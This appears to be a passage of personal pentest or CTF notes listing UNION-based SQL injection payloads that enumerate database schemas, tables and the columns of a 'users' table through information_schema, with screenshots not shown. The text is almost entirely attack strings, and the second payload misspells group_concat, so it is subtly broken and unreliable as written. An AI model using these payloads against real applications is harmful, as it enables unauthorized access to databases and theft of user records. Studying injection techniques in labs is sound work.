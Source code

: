 
### Get databases

```bash
'UNION SELECT all NULL,NULL, schema_name from information_schema.schemata -- -
```

![](/assets/obsidian/9af0c7e26de0ecb86773d82ff0e1c305.png)


### Get tables from database

```bash
'UNION SELECT ALL NULL,NULL,grouop_concat(table_name) FROM information_schema.tables WHERE table_schema = 'db' -- -
```

![](/assets/obsidian/54ec8eeb35598b67278383e3f6ab08c8.png)


### Get columns from table

```bash
'UNION SELECT ALL NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' and table_schema = 'db' -- -
```

![](/assets/obsidian/8ffcab9d439890b8c3d0f90279e10942.png)
